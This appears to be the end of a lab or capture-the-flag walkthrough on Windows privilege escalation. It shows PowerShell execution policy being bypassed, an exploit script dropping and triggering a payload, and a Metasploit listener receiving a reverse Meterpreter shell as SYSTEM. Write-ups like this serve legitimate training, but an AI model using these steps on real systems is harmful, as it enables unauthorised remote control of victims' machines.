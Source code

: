 Back on the target lets run the script 

But before that lets open powershell so that we can set execution policy true using `Set-ExecutionPolicy -ExecutionPolicy ByPass -Scope CurrentUser `

```
C:\Users\tony\Desktop>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\tony\Desktop> Set-ExecutionPolicy -ExecutionPolicy ByPass -Scope CurrentUser 
Set-ExecutionPolicy -ExecutionPolicy ByPass -Scope CurrentUser 
PS C:\Users\tony\Desktop> 
```

Now lets run the exploit code 

```
PS C:\Users\tony\Desktop> .\exploit.ps1
.\exploit.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...

```

Back on the listener 

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.88:80 
[*] Sending stage (175686 bytes) to 192.168.88.66
[*] Meterpreter session 1 opened (192.168.49.88:80 -> 192.168.88.66:49862) at 2023-01-21 00:20:23 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

And we're done xD

<br> <br>
[Back To Home](../../index.md)
<br>






















